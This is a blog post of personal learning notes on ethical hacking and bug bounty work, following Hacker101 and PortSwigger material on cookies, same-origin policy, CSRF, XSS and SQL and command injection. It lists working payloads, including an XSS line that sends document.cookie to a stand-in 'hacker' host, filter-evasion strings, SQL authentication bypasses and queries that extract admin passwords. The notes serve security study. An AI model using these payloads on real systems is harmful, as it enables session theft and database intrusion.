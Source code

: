 ```yaml
---
layout: post
title:  "Learning notes Ethical Hacking"
date:   2020-12-15
categories: code software learning hacking programming hackerone
video: false
---
```


- [PayloadsAllTheThings](//github.com/swisskyrepo/PayloadsAllTheThings)
- [Resources](//www.hacker101.com/resources)
- [Public firing range](//public-firing-range.appspot.com/)
- [Github](//github.com/s0wr0b1ndef/Hacker101) includes Coursework
- [Portswigger WebAcademy](//portswigger.net/web-security)

- [SSRF](//github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/README.md)
- [SQL entry point detection](//github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#entry-point-detection)
- [SQL WAF ByPass](//github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#waf-bypass)
- [SQL Authentication ByPass ](//github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass)

- Bug Trackers
  [SecList](//seclists.org/)  

- Bounty Programs
  HackerOne
  [Intrigi](//www.intigriti.com/programs)
  Github list of bounty [platforms](//github.com/disclose/diodata)

- Introduction
  Be able to use Java
  Request [package](//pypi.org/project/requests/) for Python
  Burp Proxy(Installed community edition) and Firefox
    Burp proxy uses embedded browser, and added Firefox proxy.  Install CA certificate.

  Shows basic example of XSS/rXSS

- [CORS Misconfiguration](//github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CORS%20Misconfiguration)
- [WebSocket Attacks](//github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Web%20Sockets)

- The Web In Depth
  And how they impact security
  Webite [link](//www.hacker101.com/sessions/web_in_depth)

  Cookies, key value pairs of data
  Sending to wrong host or changing cookie data is a threat
  Cookies, set between parent and child, not between siblings.
  Can tag cookies either Secure(HTTPS) or HTTPOnly
  Uses Set-Cookie header, can use `document.cookie`
  Cookie security, cross domain and scope, good link [here](//stackoverflow.com/questions/5677846/what-should-i-know-about-cookies-domain-and-scope-for-security-purposes)

  HTML parsing
  How browsers and Web-Applications parse is different, creating vuln
  Legacy parsing exploits tricks used to clean up after bad html e.g. putting {} around script tags got passed web-app firewalls but executed browser.

  MIME Sniffing
  If you can control how browser decodes, you may be able to alter parsing
  Good example is putting UTF-7 with base64'd blocks to get around web-app firewalls
  Doesn't have {} which are obvious filtered out unsafe elements
  Safe security, !set encoding client and server side, and MIME types!.

  Same origin policy (SOP)
  Can change `document.domain` then change sub-domain you can communicate with
  Anyone can call postMessage in an iFrame
    `document.getElementById('cross_domain_page').contentWindow.postMessage(.......)`
  	`postMessage function(message, targetOrigin)`
  SOP protocol must no cross HTTP/HTTPs, and domain names must exact match, no wildcards.
  
  Cross-site Forgery Request(CSURF)
  Uses CSRF tokens and tie to uses session, embed in forms
  When POST used CRSF to check state can change
  !Use basic automatic scanners to see vuln GET changing state to attack!!
    Prevention [cheatSheet](//cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html)

- XSS (cross scripting) and Authorization
  [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#bypass-using-utf---8)
  Reflected and Stored XSS
    Example reflected XSS bounty [report](//hackerone.com/reports/766633)
  DOM XSS
  The most common source is the URL, which is typically accessed with the location object.
  Vulernable to XSS scripting?
    Embedded tag or string?
    Any special handling?  URLs into links?
    Special character handling?   `'<>:;"`
  Exploit Case 1
    Simple script tag:  `<script>alert(1);</script>`
    If have WAF or filters, embed an anchor tab or img with a bad source or onError.
  Exploit Case 2
    Double quotes passed through, scrubbed {} brackets, use DOM events e.g. mouseover, excript executes on event.
  Exploit Case 3
    HTML encoding e.g. `; alert(1);`
    String escape e.g. `</script><script>alert(1);</script>`
  DOM XSS
    Does not hit server side, hard to mitigate
    Do not insert user input and use innerText
    Good explanation [here](//www.netsparker.com/blog/web-security/dom-based-cross-site-scripting-vulnerability/)

  How to change sessionID and CRSF?

  Bypass filters, use onError to insert `<script>` via image
  HTML parsing in strings and quotes
  eval/SetTimeOut
  DOM XSS - dont put user-controlled data directly into page, hard to mitigate
  Forced Browsing ( perform every action using highest priviledged user, swapping IDs/CSRF, or tokens )
  
  Cheat Sheet XSS:
    Good [Sources and sinks](//portswigger.net/web-security/dom-based)
    `><h1>test</h1>`
    ` "\"><img src=/ onerror=alert(1)>" `
    `'+alert(1)+'`
    `onmouseover="alert(1)"`
    `http://"onmouseover"=alert(1)`
    `"><SCRIPT>var+img=new+Image();img.src="http://hacker/"%20+%20document.cookie;</SCRIPT>`
    `+ADw-script+AD4-alert(1);+ADw-/script+AD4-`
    One obvious way to craft an XSS exploit is to terminate the double quotation marks that enclose the attribute value
   `"><script>alert(document.domain)`
    Polygot XSS locator: `javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>`
    
    [1] XSS evasion cheatsheet
    Malformed A Tags:  `\<a onmouseover="alert(document.cookie)"\>xxs link\</a\>`
    Bypass most SRC domain filters:  `<IMG SRC=# onmouseover="alert('xxs')">`
  
  Coursework:
    Look at image source to get FLAG
    Add quote to end of url, injectable
    Page content controllable, can insert script via special character to DB then render
    Forbidden view page, change address bar to edit and get flag

- Javascript for hackers 
  Using Chrome dev tools for static analysis of JS
  List of know vulnerabilities in [Public firing range] e.g. postMessage `eval`
  Cool POC tool with example [//repl.it/@MarkElliott/postMessage-Eval-POC#index.html]
  Finding API endpoints in JS (keywords such as v1, api etc )
  Look at wayBackMachine to find/track changes in code/javascript, look at first applications in WBM, as most rushed and least protected, then reverse engineer.

  Popular Sources and sinks
    eval / setTimout / setInterval
    document.URL / document.documentURI / document.referrer / document.write
    location.href / location.search / location.*
    window.name
    (element).innerHTML
    document.baserURI `http://www.example.com/test.html#<script>alert(1)</script>`

- SQL Injection
  Cloned github sqlmap, opensource SQL pentesting tool for SQL injection flaws
  Examples and overview in portswigger [here](//portswigger.net/web-security/sql-injection)
  username ` administrator'-- ` subverts application logic
  using ` admin' ` shows if can SQL inject, then determine columns
  ` https://insecure-website.com/products?category=Gifts'-- `
  ` https://insecure-website.com/products?category=Gifts'+OR+1=1-- `
  SQL Union select attacks
  ` 'UNION SELECT '123' AS password FROM admins WHERE '1' = '1 `
  ` foo' OR (select 1 from(select count(*),concat((select (select (SELECT concat(0x7e,0x27,cast(admins.username as char),0x27,0x7e) FROM `level2`.admins LIMIT 0,1) ) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a) AND '1' = '1 `
  ` foo' OR (select 1 from(select count(*),concat((select (select (SELECT concat(0x7e,0x27,cast(admins.password as char),0x27,0x7e) FROM `level2`.admins LIMIT 0,1) ) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a) AND '1' = '1 `

  Command Injection and SQLi
    [PayloadsAndAllTheThings](//github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)
      
    Good [hackerOne tutorial](//www.hackerone.com/blog/how-to-command-injections)
    Exploit ping and hostname using `ping 0.0.0.0 && echo`
    Paylods:
      ` 'or 1='1-- ` (all rows - true )
      ` 'AND 0='1-- `(no rows - false )
    Example header injection [report](//hackerone.com/reports/297478)
    Example header injection [report](//hackerone.com/reports/761304)


- Native Code Crash Course
  
  Website [link](//www.hacker101.com/sessions/native_code_crash_course)

  ** Fab resrouces below, case studies and more **

  In this session we’re diving head-first into understanding and hacking native code.

  Registers / Memory /Physical / Virtual / Page tables /Stack /Endianness / Instructions /Program Counter / Calls /Syscalls / Shared Libraries
  
  Bugs / Protections / Bypassing protections
  Tools:
    Debuggers
    Disassemblers
    Decompilers
    Hex editors
    Assemblers

- Other Tools
  [Ghidra] is a software reverse engineering (SRE) framework
  [Radar2] a free/libre toolchain for easing several low level tasks like forensics, software reverse engineering, exploiting, debugging
  [Public firing range] is a test bed for automated web application security scanners.

[1]: //owasp.org/www-community/xss-filter-evasion-cheatsheet
[Ghidra]: //github.com/NationalSecurityAgency/ghidra
[Radar2]: //rada.re/n/radare2.html
[Public firing range]: //public-firing-range.appspot.com/


